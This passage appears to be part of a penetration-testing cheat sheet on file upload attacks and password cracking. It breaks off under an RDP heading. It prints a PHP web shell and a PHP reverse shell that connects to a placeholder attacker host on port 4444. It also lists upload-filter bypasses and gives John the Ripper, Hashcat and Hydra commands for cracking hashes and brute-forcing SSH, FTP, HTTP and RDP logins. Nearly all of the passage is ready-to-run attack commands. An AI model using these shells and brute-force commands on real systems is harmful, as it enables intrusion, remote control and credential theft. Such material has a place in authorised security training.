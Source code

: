 ### File Upload Vulnerabilities
```php
# PHP reverse shell
<?php system($_GET['cmd']); ?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'"); ?>

# Upload bypasses
- Double extensions: shell.php.jpg
- Null byte: shell.php%00.jpg
- MIME type manipulation
- Magic number modification
```

---

## System Hacking & Post-Exploitation

### Password Cracking

#### Hash Identification
```bash
hash-identifier
hashid hash_value
```

#### John the Ripper
```bash
# Crack password hashes
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john --format=NT hashes.txt
john --show hashes.txt

# Generate wordlist
john --wordlist=words.txt --rules --stdout > mutated.txt
```

#### Hashcat
```bash
# MD5
hashcat -m 0 -a 0 hash.txt wordlist.txt

# NTLM
hashcat -m 1000 -a 0 hash.txt wordlist.txt

# SHA-256
hashcat -m 1400 -a 0 hash.txt wordlist.txt

# Brute force
hashcat -m 0 -a 3 hash.txt ?a?a?a?a?a?a?a?a
```

#### Hydra (Online Attacks)
```bash
# SSH
hydra -l username -P wordlist.txt ssh://target.com

# FTP
hydra -l admin -P wordlist.txt ftp://target.com

# HTTP POST
hydra -l admin -P wordlist.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# RDP
```